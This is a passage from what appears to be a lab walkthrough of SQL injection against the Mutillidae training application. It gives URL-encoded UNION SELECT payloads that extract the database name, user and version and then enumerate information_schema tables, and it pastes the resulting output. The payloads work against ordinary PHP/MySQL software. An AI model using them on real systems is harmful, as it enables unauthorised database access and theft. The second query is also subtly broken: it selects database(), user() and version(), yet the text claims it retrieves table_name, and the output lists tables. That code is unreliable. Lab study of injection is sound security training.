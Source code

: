 * The output i recieve is the following.

```
Username=owasp10
Password=root@localhost
Signature=5.0.51a-3ubuntu5
```

* Which shows me the database name, username logged for the database and the database version.


---

### Finding Database Tables

* Now that we have found the database name, user for database, and the version of database. Lets start finding the database tables.
* So first i'm to replace the third and fourth fields with null.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,database(),null,null,5%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* Now we are going get the table names from information_schema which by default is created by mysql.
* This database contains information for all the other database so meta database.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,database(),user(),version(),5 from information_schema.tables%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* So what this query does is grabs the tables from information_schema and grabs a table name table_name.
* Now we recieve the following output.

```
Username=CHARACTER_SETS
Password=
Signature=

Username=COLLATIONS
Password=
Signature=

Username=COLLATION_CHARACTER_SET_APPLICABILITY
Password=
Signature=

Username=COLUMNS
Password=
Signature=

Username=COLUMN_PRIVILEGES
Password=
Signature=

Username=KEY_COLUMN_USAGE
Password=
Signature=

Username=PROFILING
Password=
Signature=

Username=ROUTINES
Password=
```